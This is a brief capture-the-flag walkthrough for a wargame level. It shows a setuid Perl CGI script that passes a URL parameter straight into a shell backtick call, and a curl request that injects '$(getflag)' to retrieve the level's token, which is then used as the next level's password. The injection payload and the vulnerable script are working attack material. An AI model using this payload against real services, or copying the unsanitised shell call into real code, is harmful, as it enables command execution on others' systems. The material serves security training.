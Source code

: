 ## Check files inside home folder of user level04
ls -la

-> -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

## This file can be execute as flag04 user, in addition is a Perl file with the folowing code
cat level04.pl

-> #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
     $y = $_[0];
     print `echo $y 2>&1`;
   }
   x(param("x"));

## To exploit this file we need use this line
print `echo $y 2>&1`;

## If we use curl with a paramater we can execute any comand and show the results
curl 'localhost:4747/?x=$(getflag)'

->Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

## Log in to user level05
su level05 (password: ne2searoevaevoem4ov4ar8ap)